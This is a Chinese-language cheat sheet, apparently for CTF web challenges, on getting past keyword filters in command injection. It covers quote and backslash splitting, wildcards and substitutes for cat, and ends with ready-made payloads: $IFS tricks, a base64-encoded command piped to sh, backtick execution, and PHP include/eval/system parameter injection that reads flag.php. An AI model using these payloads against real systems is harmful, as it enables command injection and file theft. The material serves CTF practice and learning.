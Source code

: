 * `\`
    
    `linux`下将关键字用`\`分隔，可以起到换行连接输入的作用，但是关键字全字匹配不到

* `通配符`

    是通配符代替敏感词中的某一部分，可以对特定文件执行操作

* `''`

    shell特性，`两个单引号`插在字符串中间，执行的时候自动忽略

* `.`source命令

    刷新当前`shell`环境
    在当前环境使用`source`执行`shell脚本`


* 换命令

    `cat->tac(逆向输出)->more(分页输出)->less(分页输出)->tail(文件最尾部信息)`
    
    * `tac`
        >逆向输出文件内容

    * `tail`
        >显示文件尾部内容

        -c<数目>显示的字节数
        -n<行数>显示的行数

    * `head`
        >显示文件开头的内容

        -c<数目>显示的字节数
        -n<行数>显示的行数

    * `od`
        >将文件内容以八进制形式输出

    * `nl`
        >将文件添加行号标注后写到标准输出
        
### 清奇思路

* 命令执行变量拼接

    `/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

* 过滤bash用sh执行

    `echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`

* 内联执行

    `?ip=127.0.0.1;cat$IFS$9`ls``

* 造参传参

    `c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php`

    `c=eval($_GET[1]);&1=system('cat flag.php');`
